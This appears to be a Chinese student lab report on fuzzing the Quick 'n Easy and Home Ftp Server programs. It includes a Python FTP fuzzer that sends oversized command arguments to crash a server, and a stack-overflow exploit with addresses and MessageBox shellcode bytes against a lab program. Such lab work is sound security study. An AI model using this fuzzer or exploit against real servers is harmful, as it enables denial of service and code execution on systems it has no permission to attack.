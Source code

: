 # 2022-10-27-fuzz实验

## 一、目标

1.   了解fuzz的基本原理
2.   通过FtpFuzz来fuzz Quick ‘n easy ftp server的服务器，使服务器停止工作
3.   自己编写或修改Python脚本来自己编写FTP FUZZ简单工具，并用其来对Home Ftp Server进行Fuzz，使服务器停止工作，可以用OllyDbg附加查看异常。
4.   开发一个针对文件溢出的目标程序的**fuzz**程序，使目标程序崩溃。能生成攻击测试文件并通过程序自动加载，并确定从哪个文件开始出现程序崩溃，给出被攻击缓冲区实际大小，并植入一个功能不限的**shellcode**。

## 二、 测试步骤与结果

### （一） Quick ‘n easy ftp server

打开easy ftp server，点击launch user account wizard创建一个匿名账户。

![image-20221027140518615](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221027140518615.png)

设置家目录。

![image-20221027140648355](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221027140648355.png)

赋予下载权限。

![image-20221027140749313](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221027140749313.png)

点击start开始ftp服务。

![image-20221027122845548](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221027122845548.png)

打开ftpfuzz.exe，底部选择Deselect All去掉所有选项。

![image-20221027140939992](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221027140939992.png)

勾选USER，设置USER参数为anonymous。

![image-20221027141130663](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221027141130663.png)

勾选PASS，设置PASS参数为anonymous。

![image-20221027141229112](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221027141229112.png)

勾选LIST，勾选Fuzz this FTP command。

![image-20221027141354809](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221027141354809.png)

点击Config，点击Deselect All，勾选..?。

![image-20221027141520933](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221027141520933.png)

输入host为127.0.0.1，点击start开始对ftp服务器进行fuzz测试。

![image-20221027141614007](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221027141614007.png)

测试结束。

![image-20221027141710222](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221027141710222.png)

在ftp日志中看到提示了缓冲区溢出，但fuzzer中并未按预期出现红字，ftp也并未崩溃，判断可能与系统环境有关。

![image-20221027141903853](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221027141903853.png)

切换到虚拟机中，修改fuzzer中的host为192.168.223.139。

![image-20221027143638176](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221027143638176.png)

成功。

![img](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/4a04-8.png)

### （二）Home Ftp Server

打开Home Ftp Server，添加成员anonymous/anonymous。

![image-20221027144320704](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221027144320704.png)

点击Start Server开启服务。

![image-20221027144107888](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221027144107888.png)

构造代码如下，以anonymous/anonymous身份登录，并根据命令拼接大量a作为垃圾数据传送。

```python
import socket,sys
def ftp_test(ip,port1):
    target = ip
    port = port1
    buf = 'a'*272
    j=2
    fuzzcmd = ['mdelete ','cd ','mkdir ','delete ','cwd ','mdir ','mput ','mls ','rename ','site index ']
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    try:
        connct = s.connect((target,port))
        print("[+] Connected!")
    except:
        print("[!] Connection Failed!")
        sys.exit(0)
    s.recv(1024)
    s.send(b'USER anonymous\r\n')
    s.recv(1024)
    s.send(b'PASS anonymous\r\n')
    s.recv(1024)
    print("[+] Sending payload...")
    for i in fuzzcmd:
        s.send(bytes((i + buf*j + '\r\n').encode('utf-8')))
        s.send(bytes((i + buf*j*4 + '\r\n').encode('utf-8')))
        s.send(bytes((i + buf*j*8 + '\r\n').encode('utf-8')))
        s.send(bytes((i + buf*j*40 + '\r\n').encode('utf-8')))
        try:
            s.recv(1024)
            print("[!] Fuzz failed!")
        except:
            print("[+] Maybe we find a bug!")

if __name__ == '__main__':
    ftp_test("127.0.0.1",21)
```

运行代码提示：[+] Maybe we find a bug!并报错远程关闭连接，可能存在溢出漏洞。

![image-20221027150707752](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221027150707752.png)

打开程序，附加到OD，执行fuzz脚本，如期出现异常。

![image-20221028125926531](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221028125926531.png)

## 三、测试结论

 成功通过既有fuzz ftp攻击程序和自编脚本对两个ftp服务器软件home ftp和easy ftp进行攻击，发送大量脏数据使服务器崩溃，通过观察软件和动态调试软件观测到异常反应。

## 四、附加题

程序拖进IDA，发现和之前分析过的程序一致，程序流程不再赘述。

![image-20221028131610977](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221028131610977.png)

编写脚本如下，向程序发送脏数据测试输入缓冲区password的大小，直到8197时出现异常。

![image-20221028133134316](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221028133134316.png)

拖入IDA，经验证缓冲区实际大小为8192，达到8197时已经覆盖其他栈上变量，再补充三个字符到8200恰好覆盖到返回地址前，构造payload：8200B填充数据 + 4B JMP ESP地址 + 52Bshellcode。

![image-20221028140506038](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221028140506038.png)

找到MessageBoxA地址：757782A0，ExitProcess地址：74C76850，JMP ESP地址：7571F1D7，修改[shellcode实验](./2022-10-15-shellcode实验.md)payload。

![image-20221028135457323](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221028135457323.png)

![image-20221028142146354](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221028142146354.png)

![image-20221028142319840](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221028142319840.png)

```
D7 F1 71 75 66 81 EC 40 04 33 DB 53 68 42 75 70 74 68 62 75 70 37 8B C4 53 50 50 53 B8 A0 82 77 75 FF D0 53 B8 50 68 C7 74 FF 90 90 90 90 90 90 90 90 90 90 90 90 90 90
```

![image-20221028143235455](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221028143235455.png)

重新运行程序，成功跳转shellcode。

![image-20221028142425473](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221028142425473.png)

成功弹窗。

![image-20221028143010772](2022-10-27-fuzz%E5%AE%9E%E9%AA%8C/image-20221028143010772.png)
